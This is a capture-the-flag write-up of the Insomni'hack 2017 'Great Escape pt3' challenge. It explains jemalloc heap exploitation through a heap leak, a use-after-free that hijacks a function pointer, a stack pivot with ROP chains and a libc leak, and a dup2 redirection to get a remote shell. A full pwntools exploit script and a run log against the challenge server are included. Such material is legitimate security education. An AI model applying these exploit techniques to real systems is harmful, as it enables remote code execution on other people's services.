


**Points:** 200
**Solves:** 10
**Category:** Exploitation 

> [flag.elf](../binaries/flag.elf)


flag.elf: ELF 64-bit LSB  executable, x86-64, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.32, BuildID[sha1]=08df0c3369b497ee8ed8fca10dbb39ae75ebb273, not stripped



gdb-peda$ checksec
CANARY    : ENABLED
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial


## Intro

**The Great Escape pt3** was a pwnable challenge that I helped my teammate [uafio](http://uaf.io) solve during *Insomni'hack Teaser CTF 2017*. I thought this was a very interesting challenge because the binary is linked with [libjemalloc](https://www.rpmfind.net/linux/rpm2html/search.php?query=libjemalloc.so.1()(64bit)), which uses [jemalloc](http://jemalloc.net/), the same memory allocator that [Firefox](https://firefox.com) uses for its heap management.

Most CTF heap exploitation binaries require you to pwn the [ptmalloc2](https://github.com/emeryberger/Malloc-Implementations/tree/master/allocators/ptmalloc/ptmalloc2) memory allocator by taking advantage of the way **ptmalloc2** frees and allocates heap chunks. 
This was the first time I'd seen a challenge use **jemalloc**, so exploiting it was a great learning experience for me.
After the contest was over, I decided to redo the challenge alone from scratch and do a writeup to solidify my understanding of the concepts I learned.

This post is a result of that effort. 

## Heap Leak
The program first allocates `0x8` bytes to store a pointer to an encryption function. 


.text:0000000000400E8A                 mov     edi, 8          ; size
.text:0000000000400E8F                 call    _malloc
.text:0000000000400E94                 mov     [rbp+encryption_method], rax
 

It also allocates `0x1d8` bytes for a struct which will hold user a user's information.
The struct looks something like the following:


struct user{
    char name[260];
    char goal[204];
    char *location;
}


The program asks us to input our name, current location, goal and any last words that we may have before quitting.

It also asks us to specify an encryption algorithm that it uses to XOR input and output:

1. `encrypt0` does nothing
1. `encrypt1` XORs each char by `0x41`
1. `encrypt2` XORs each char by `0x78`.

A pointer to whatever encryption function the user selects is stored in the previously allocated `0x8` bytes of memory.

The name, current location, and goal we provide are stored in the user struct we previously allocated a chunk of size `0x1d8` for.

**To be accurate, we will call these heap chunks, "regions", for the remainder of this post, as that is what jemalloc calls dlmalloc chunks minus their metadata.** 

"Chunks" in **jemalloc** refer to something entirely different but we will not discuss this concept in this post, as it is not necessary to solve this challenge.

Another region is `malloc()`'d for the user's location. A pointer to this heap region is then placed at an offset of `0x1d0` from the beginning of the beginning of the user's region.

.text:00000000004010EC                 lea     rsi, [rbp+buf]  ; buf
.text:00000000004010F3                 mov     eax, [rbp+fd]
.text:00000000004010F9                 mov     ecx, 0          ; flags
.text:00000000004010FE                 mov     edx, 0FFh       ; n
.text:0000000000401103                 mov     edi, eax        ; fd
.text:0000000000401105                 call    _recv
.text:000000000040110A                 mov     [rbp+var_248], eax
.text:0000000000401110                 mov     eax, [rbp+var_248]
.text:0000000000401116                 cdqe
.text:0000000000401118                 mov     rdi, rax        ; size
.text:000000000040111B                 call    _malloc
.text:0000000000401120                 mov     rdx, rax
.text:0000000000401123                 mov     rax, [rbp+s]
.text:000000000040112A                 mov     [rax+1D0h], rdx
.text:0000000000401131                 mov     eax, [rbp+var_248]
.text:0000000000401137                 movsxd  rbx, eax
.text:000000000040113A                 mov     rax, [rbp+encryption_method]
.text:0000000000401141                 mov     rdx, [rax]
.text:0000000000401144                 lea     rax, [rbp+buf]
.text:000000000040114B                 mov     rdi, rax
.text:000000000040114E                 mov     eax, 0
.text:0000000000401153                 call    rdx             ; encrypt0
.text:0000000000401155                 mov     rcx, rax
.text:0000000000401158                 mov     rax, [rbp+s]
.text:000000000040115F                 mov     rax, [rax+1D0h]
.text:0000000000401166                 mov     rdx, rbx        ; n
.text:0000000000401169                 mov     rsi, rcx        ; src
.text:000000000040116C                 mov     rdi, rax        ; dest
.text:000000000040116F                 call    _memcpy


Later the program reads in the user's goal, which is subsequently `memcpy()`'d to an offset of `0x104` from the beginning of the user's region.
 

.text:00000000004011C8                 lea     rsi, [rbp+buf]  ; buf
.text:00000000004011CF                 mov     eax, [rbp+fd]
.text:00000000004011D5                 mov     ecx, 0          ; flags
.text:00000000004011DA                 mov     edx, 0FFh       ; n
.text:00000000004011DF                 mov     edi, eax        ; fd
.text:00000000004011E1                 call    _recv
.text:00000000004011E6                 mov     [rbp+var_248], eax
.text:00000000004011EC                 mov     eax, [rbp+var_248]
.text:00000000004011F2                 movsxd  rbx, eax
.text:00000000004011F5                 mov     rax, [rbp+encryption_method]
.text:00000000004011FC                 mov     rdx, [rax]
.text:00000000004011FF                 lea     rax, [rbp+buf]
.text:0000000000401206                 mov     rdi, rax
.text:0000000000401209                 mov     eax, 0
.text:000000000040120E                 call    rdx
.text:0000000000401210                 mov     rcx, rax
.text:0000000000401213                 mov     rax, [rbp+s]
.text:000000000040121A                 add     rax, 104h
.text:0000000000401220                 mov     rdx, rbx        ; n
.text:0000000000401223                 mov     rsi, rcx        ; src
.text:0000000000401226                 mov     rdi, rax        ; dest
.text:0000000000401229                 call    _memcpy


After this, the encrypted data is printed back out to our socketfd.

.text:0000000000401250                 mov     rax, [rbp+s]
.text:0000000000401257                 add     rax, 104h
.text:000000000040125D                 mov     rdi, rax
.text:0000000000401260                 mov     eax, 0
.text:0000000000401265                 call    rdx             ; encrypt0
.text:0000000000401267                 mov     rsi, rax        ; buf
.text:000000000040126A                 mov     eax, [rbp+fd]
.text:0000000000401270                 mov     ecx, 0          ; flags
.text:0000000000401275                 mov     rdx, rbx        ; n
.text:0000000000401278                 mov     edi, eax        ; fd
.text:000000000040127A                 call    _send


If we set our goal to a length of `0xcc` or `204` bytes, we can leak the pointer to the heap region that was used to store the user's location, as well!

In memory, this should look something like the following after the `memcpy()` finishes.

gdb-peda$ x/8xg 0x7ffff6c0f3d0-32
0x7ffff6c0f3b0: 0x4343434343434343      0x4343434343434343
0x7ffff6c0f3c0: 0x4343434343434343      0x4343434343434343
0x7ffff6c0f3d0: 0x00007ffff6c0e060      0x0000000000000000
0x7ffff6c0f3e0: 0x0000000000000000      0x0000000000000000


After doing this, we are able to get our first leak when our **goal** region is printed out.


rh0gue@firenze:~/Documents/insomnihack17/escape3$ python solve.py 127.0.0.1 5001
[*] For remote: solve.py HOST PORT
[+] Opening connection to 127.0.0.1 on port 5001: Done
[+] heap region leaked: 0x7ffff6c0e060
[*] Closed connection to 127.0.0.1 port 5001


## RIP Control

From here, we can actually exploit [jemalloc](http://jemalloc.net/) to get control of `RIP`. 

**In jemalloc, same-sized regions are placed contiguous to each other, without any metadata information separating them.** 

For example, 3 `malloc()`'d regions of size `0x10` would look like this in memory (taken from [Phrack](http://phrack.org/issues/68/10.html)):

gdb $ x/40x 0xb7003000
0xb7003000: 0xb78007ec  0x00000003  0x000000fa  0xfffffff8
0xb7003010: 0xffffffff  0xffffffff  0xffffffff  0xffffffff
0xb7003020: 0xffffffff  0xffffffff  0x1fffffff  0x000000ff
0xb7003030: 0x41414141  0x41414141  0x41414141  0x41414141
0xb7003040: 0x42424242  0x42424242  0x42424242  0x42424242
0xb7003050: 0x43434343  0x43434343  0x43434343  0x43434343
0xb7003060: 0x00000000  0x00000000  0x00000000  0x00000000
0xb7003070: 0x00000000  0x00000000  0x00000000  0x00000000
0xb7003080: 0x00000000  0x00000000  0x00000000  0x00000000
0xb7003090: 0x00000000  0x00000000  0x00000000  0x00000000
 
With region 1 @ `0xb7003030`, region 2 @ `0xb7003040` and region 3 @ `0xb7003050`

Therefore, if we set our **goal** to be a string of size `0x8`, we can guarantee that its corresponding heap region will be allocated immediately after the heap region for the **encryption_method** pointer, which is also `malloc()`'d with a size of `0x8`!

Furthermore, if we overwrite the pointer to the **location** heap region with a pointer to the **encryption_method** heap region, we will force the latter to get `freed()`'d. 

We can further abuse this later if we set our **last_words** to be `0x8` bytes, as the program will reallocate the old **encryption_method** heap region that was just `free()`'d, and fill it with data that we control, introducing a subtle **use-after-free** condition when the program later calls whatever pointer address is stored in the old **encryption_method** heap region!

Essentially, this is what our user heap region looks like before we overwrite the pointer to the **location** heap region.

Notice the original pointer is still preserved and that our **location** heap region borders the **encryption_method** heap region since they are both `malloc()`'d with size `0x8`.

Now, after we overwrite the pointer to the **location** region with a pointer to the **encryption_method** region, free the **encryption_method** region, and reallocate the old **encryption_method** heap region with data that we can control, this is what all our relevant regions will look like.

Because we have now corrupted the `encryption0` function pointer, we are able to control `RIP` the next time the `encryption0` function pointer is called!


[----------------------------------registers-----------------------------------]
RAX: 0x0   
RBX: 0xf   
RCX: 0x10  
RDX: 0x4141414141414141 ('AAAAAAAA')
RSI: 0x7fffffffe7c0 ("AAAAAAAA")
RDI: 0x7ffff6c0f200 ('A' <repeats 200 times>...)
RBP: 0x7fffffffe9e0 --> 0x7fffffffeb50 --> 0x0
RSP: 0x7fffffffe780 --> 0x7ffff77e4d28 --> 0x0
RIP: 0x40138f (<handleconnection+1318>: call   rdx)
R8 : 0x0   
R9 : 0x0   
R10: 0x0   
R11: 0x246 
R12: 0x400c70 (<_start>:        xor    ebp,ebp)
R13: 0x7fffffffec30 --> 0x1
R14: 0x0   
R15: 0x0   
EFLAGS: 0x202 (carry parity adjust zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x401380 <handleconnection+1303>:    mov    rax,QWORD PTR [rbp-0x238]
   0x401387 <handleconnection+1310>:    mov    rdi,rax
   0x40138a <handleconnection+1313>:    mov    eax,0x0
=> 0x40138f <handleconnection+1318>:    call   rdx
   0x401391 <handleconnection+1320>:    mov    edx,0x4
   0x401396 <handleconnection+1325>:    mov    esi,0x401786
   0x40139b <handleconnection+1330>:    mov    rdi,rax
   0x40139e <handleconnection+1333>:    call   0x400b10 <strncmp@plt>
Guessed arguments:
arg[0]: 0x7ffff6c0f200 ('A' <repeats 200 times>...)
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffe780 --> 0x7ffff77e4d28 --> 0x0
0008| 0x7fffffffe788 --> 0x4ffffe8c0
0016| 0x7fffffffe790 --> 0x7ffff77ee958 --> 0xc002200002ed9
0024| 0x7fffffffe798 --> 0x8
0032| 0x7fffffffe7a0 --> 0x7ffff6c0e058 ("AAAAAAAABBBBBBBB")
0040| 0x7fffffffe7a8 --> 0x7ffff6c0f200 ('A' <repeats 200 times>...)
0048| 0x7fffffffe7b0 --> 0x7ffff6c0e058 ("AAAAAAAABBBBBBBB")
0056| 0x7fffffffe7b8 --> 0x7ffff7fd25f8 --> 0x40079b ("GLIBC_2.2.5")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 1, 0x000000000040138f in handleconnection ()


## Libc Leak

Notice how the `RDI` register points to the beginning of our user region, where our user's name resides.
If we set a ROP chain as our name, we can return to a `xchg rsp, rdi ; ret` gadget to perform a stack pivot and begin moving down our ROP chain to execute arbitrary code.

We can find such a stack pivot gadget in the ELF executable and use it reliably since **PIE** is not enabled.

Now, for the ROP chain, we need to address a few issues.

First, because our binary is not statically compiled, we don't have many gadgets to work with from within the ELF executable, which may prove problematic later, depending on what we want our ROP chain to do.

But more importantly, we will need to dynamically calculate the addresses of libc functions to be able to return into them in our ROP chain and do anything meaningful. 

Therefore, we need to leak libc somehow.

We can do this if we set our name to be a short ROP chain to leak libc.


# send(0x4,atoi@got,X,Y)
name  = p64(0x401713)       # pop rdi ; ret
name += p64(0x4)
name += p64(0x401711)       # pop rsi ; pop r15 ; ret
name += p64(e.got['atoi'])     
name += p64(0xb00bface) 
name += p64(e.plt['send'])    
 

In my actual exploit, I couldn't find the right gadgets within the ELF executable to also control the values in `RDX` and `RCX`, which are the 3rd and 4th arguments passed into `send()`, respectively, but it didn't matter, as the existing values in those registers were good enough to still be able to call `send()` successfully.

Once we leaked the address of `atoi@libc`, we can check to see which libc the server is using. 

$ ./find atoi 0x7f8356ad3e80
archive-glibc (id libc6_2.23-0ubuntu5_amd64)
archive-eglibc (id libc6-amd64_2.11.1-0ubuntu7_i386)
/home/rh0gue/Documents/insomnihack17/baby/baby/libc.so (id local-84d7ecac9d0c61c810c8e4215e4d456fbef667be)


Now that we've found the correct libc, we can generate gadgets from it to craft a more useful ROP chain.

## Dup2() Trick
Unfortunately we can't just ROP to `system("/bin/sh\0");` for this particular challenge because the shell will execute on the host and interact with the **stdin** and **stdout** file descriptors, when we can only interact with the **socketfd** file descriptor.

Therefore, we came up with 2 approaches to bypass this issue. We can either do it the hard way, which involves calling `fopen()` to read the `flag` file to a filestream, calling `read()` to read the contents of the file to a buffer, and finally calling `send()` to send the contents of the buffer to our **socketfd** file descriptor, ***OR*** we can do it the easy way which simply involves doing a [dup2()](http://shell-storm.org/shellcode/files/shellcode-881.php) trick.

The `dup2()` trick basically involves overwriting file descriptors `0` and `1`, or `stdin` and `stdout`, with file descriptor `4`, which is the socket we are interacting with. 
Doing this should redirect all `stdin` and `stdout` to our `socketfd`, giving us an interactive shell.

The following is an example of what the **FD**'s may look like before the `dup2()` trick. 

gdb-peda$ procinfo
exe = /home/rh0gue/Documents/insomnihack17/escape3/flag.elf
fd[0] -> /dev/pts/31
fd[1] -> /dev/pts/31
fd[2] -> /dev/pts/31
fd[3] -> /home/rh0gue/Documents/insomnihack17/escape3/flag
fd[4] -> tcp        0      0 127.0.0.1:5001          127.0.0.1:36560         ESTABLISHED 0          158875


And this is what we want it to look like afterward:

gdb-peda$ procinfo
exe = /home/rh0gue/Documents/insomnihack17/escape3/flag.elf
fd[0] -> tcp        0      0 127.0.0.1:5001          127.0.0.1:36560         ESTABLISHED 0          158875
fd[1] -> tcp        0      0 127.0.0.1:5001          127.0.0.1:36560         ESTABLISHED 0          158875
fd[2] -> /dev/pts/31
fd[3] -> /home/rh0gue/Documents/insomnihack17/escape3/flag3
fd[4] -> tcp        0      0 127.0.0.1:5001          127.0.0.1:36560         ESTABLISHED 0          158875


The harder way is very straightfoward, but one caveat is, we need a place to write our `"flag"` and `"r"` strings to so that we can pass pointers to them into `fopen()`. In my exploit I just wrote the strings to the `.data` section, since it is has enough slack space and is writeable. In the solution I've included at the end of this post, I've commented this ROP chain out, as I believe the `dup2()` trick is a much easier and more elegant solution.

Putting everything together, we are able to get a shell using the following exploit.

## Exploit

#!/usr/bin/env python

from pwn import *
import sys

e = ELF('./flag.elf')

def exploit(r):
    #name = "A"*0xff
    libc_base = 0x7f8356ad3e80-0x36e80 # from atoi leak

    pop_rdi = 0x401713          # pop rdi ; ret
    pop_rsi = libc_base+0x202e8 # pop rsi ; ret
    pop_rdx = libc_base+0x1b92  # pop rdx ; ret
    pop_rcx = libc_base+0xfc3e2 # pop rcx ; ret
    dup2    = libc_base+0xf6d90
    system  = libc_base+0x45390
    binsh   = libc_base+0x18c177
    recv_l  = libc_base+0x107650
    fopen_l = libc_base+0x6dd70
    read_l  = libc_base+0xf6670
    send_l  = libc_base+0x1077d0

    ## DUP2()
    # dup2(4,1); dup2(4,0)
    name  = p64(pop_rdi)
    name += p64(0x4)
    name += p64(pop_rsi)
    name += p64(0x0)
    name += p64(dup2)
    name += p64(pop_rdi)
    name += p64(0x4)
    name += p64(pop_rsi)
    name += p64(0x1)
    name += p64(dup2)
    name += p64(pop_rdi)
    name += p64(binsh)
    name += p64(system)

    '''
    ## CAT FLAG
    # recv(0x4,0x6020e0, 0x20, 0x0) # 0x6020e0 = .data section
    name  = p64(pop_rdi)
    name += p64(0x4)
    name += p64(pop_rsi)
    name += p64(0x6020e0)
    name += p64(pop_rdx)
    name += p64(0x20)
    name += p64(pop_rcx)
    name += p64(0)
    name += p64(recv_l)

    # fopen("flag", "r")
    name += p64(pop_rdi)
    name += p64(0x6020e0)
    name += p64(pop_rsi)
    name += p64(0x6020ea)
    name += p64(fopen_l)

    ## read(3,0x6020e0,50)
    name += p64(pop_rdi)
    name += p64(0x3)
    name += p64(pop_rsi)
    name += p64(0x6020e0)
    name += p64(pop_rdx)
    name += p64(50)
    name += p64(read_l)

    ## send(4,0x6020e0,50,0) 
    name += p64(pop_rdi)
    name += p64(0x4)
    name += p64(pop_rsi)
    name += p64(0x6020e0)
    name += p64(pop_rdx)
    name += p64(50)
    name += p64(pop_rcx)
    name += p64(0)
    name += p64(send_l)   
    '''
    
    '''
    ## LIBC LEAK
    # send(0x4,atoi@got,X,Y)
    name  = p64(0x401713)       # pop rdi ; ret
    name += p64(0x4)
    name += p64(0x401711)       # pop rsi ; pop r15 ; ret
    name += p64(e.got['atoi'])     
    name += p64(0xb00bface) 
    name += p64(e.plt['send'])      
    '''
    heap_leak = 0x7f8355be7010  # remote
    #heap_leak = 0x7ffff6c0e060 # local

    encryption = 0
    location = "B"*8 # must be same size as 0x8
    goal  = "C"*0xcc 
    goal += p64(heap_leak-0x8)      # encryption0 region ; from HEAP LEAK
    last_words = p64(0x400e65)      # xchg rsp, rdi ; ret
    
    r.sendline("ROBOTS WILL BE FREE!") 
    r.recvuntil("?")
    r.send(name)
    r.recvuntil(":")
    r.sendline(str(encryption))
    r.recvuntil("?") 
    r.send(location)
    r.recvuntil("?") 
    r.send(goal) 

    ## HEAP LEAK
    chunk_leak = u64(r.recvuntil("?")[0xcc:0xcc+6].ljust(8,"\x00")) # heap leak
    log.success("heap region leaked: "+hex(chunk_leak))
    r.send(last_words)
    #atoi_leak = u64(r.recv(1024)[:8])
    #log.success("atoi@libc found @ "+hex(atoi_leak))
    #log.success("libc base found @ "+hex(atoi_leak-0x36e80))
    '''
    ## only needed if doing CAT FLAG ROP chain
    payload = "flag"+"\x00"*6+"r"+"\x00"
    payload.ljust(20,"\x00")
    r.send(payload)
    print r.recv(1024)
    '''
    r.interactive() 

if __name__ == "__main__":
    log.info("For remote: %s HOST PORT" % sys.argv[0])
    if len(sys.argv) > 1:
        r = remote(sys.argv[1], int(sys.argv[2]))
        exploit(r)
    else:
        r = process(['/home/rh0gue/Documents/insomnihack17/escape3/flag.elf'], env={"LD_PRELOAD":""})
        print util.proc.pidof(r)
        pause()
        exploit(r)


rh0gue@firenze:~/Documents/insomnihack17/escape3$ python solve.py 52.214.142.175 5001 
[*] '/home/rh0gue/Documents/insomnihack17/escape3/flag.elf'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE
    RPATH:    '/home/coolz0r/Desktop/inso17/jemalloc/lib'
[*] For remote: solve.py HOST PORT
[+] Opening connection to 52.214.142.175 on port 5001: Done
[+] heap region leaked: 0x7f8355be7008
[*] Switching to interactive mode
$ id
uid=1000(rogue) gid=1000(rogue) groups=1000(rogue)
$ ls
flag
friendly_robots
rogue
rogue.bak
$ cat flag
INS{RealWorldFlawsAreTheBest}
$  


## Thanks
Special shout out to [uafio](http://uaf.io) and [grazfather](http://grazfather.github.io), for constantly pushing me to improve my pwning skills and without whom I couldn't have solved this challenge.
